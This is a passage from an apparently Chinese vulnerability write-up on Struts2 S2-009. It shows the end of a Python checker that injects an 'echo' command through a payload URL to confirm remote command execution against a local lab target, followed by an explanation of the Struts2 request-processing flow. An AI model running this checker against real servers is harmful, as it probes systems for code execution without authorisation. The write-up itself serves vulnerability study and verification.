 ```python

        """
        检测是否存在漏洞

        :param:

        :return str True or False
        """

        try:
            check_url = self.url + self.payload.format(cmd = urllib.parse.quote(('echo' + ' ' + self.capta), 'utf-8'))
            check_res = requests.get(check_url)
            check_str = self.filter(list(check_res.text))
            if check_res.status_code == 200 and len(check_str) < 100 and self.capta in check_str:
                return True
            else:
                return False
        except Exception as e:
            print(e)
            return False
        finally:
            pass

if  __name__ == "__main__":
    S2_009 = S2_009_BaseVerify('http://127.0.0.1:8080')
    S2_009.run()
```

## 漏洞分析

首先Struts2的运行流程是

![流程图](https://taomujian.github.io/img/S2-009/images/流程图.png)

&emsp;&emsp;&emsp;&emsp;1.HTTP请求经过一系列的标准过滤器(Filter)组件链(这些拦截器可以是Struts2 自带的,也可以是用户自定义的,本环境中struts.xml中的package继承自struts-default,struts-default就使用了Struts2自带的拦截器.ActionContextCleanUp主要是清理当前线程的ActionContext、Dispatcher,FilterDispatcher主要是通过ActionMapper来决定需要调用那个Action,FilterDispatcher是控制器的核心,也是MVC中控制层的核心组件),最后到达FilterDispatcher过滤器.

&emsp;&emsp;&emsp;&emsp;2.核心控制器组件FilterDispatcher根据ActionMapper中的设置确定是否需要调用某个Action组件来处理这个HttpServletRequest请求,如果ActionMapper决定调用某个Action组件,FilterDispatcher核心控制器组件就会把请求的处理权委托给ActionProxy组件.

&emsp;&emsp;&emsp;&emsp;3.ActionProxy组件通过Configuration Manager组件获取Struts2框架的配置文件struts.xml,最后找到需要调用的目标Action组件类,然后ActionProxy组件就创建出一个实现了命令模式的ActionInvocation类的对象实例类的对象实例(这个过程包括调用Anction组件本身之前调用多个的拦截器组件的before()方法)同时ActionInvocation组件通过代理模式调用目标Action组件.但是在调用之前ActionInvocation组件会根据配置文件中的设置项目加载与目标Action组件相关的所有拦截器组件(Interceptor)

&emsp;&emsp;&emsp;&emsp;4.一旦Action组件执行完毕,ActionInvocation组件将根据开发人员在Struts2.xml配置文件中定义的各个配置项目获得对象的返回结果,这个返回结果是这个Action组件的结果码(比如SUCCESS、INPUT),然后根据返回的该结果调用目标JSP页面以实现显示输出.

&emsp;&emsp;&emsp;&emsp;5.最后各个拦截器组件会被再次执行(但是顺序和开始时相反,并调用after()方法),然后请求最终被返回给系统的部署文件中配置的其他过滤器,如果已经设置了ActionContextCleanUp过滤器,那么FilterDispatcher就不会清理在ThreadLocal对象中保存的ActionContext信息.如果没有设置ActionContextCleanUp过滤器,FilterDispatcher就会清除掉所有的ThreadLocal对象.

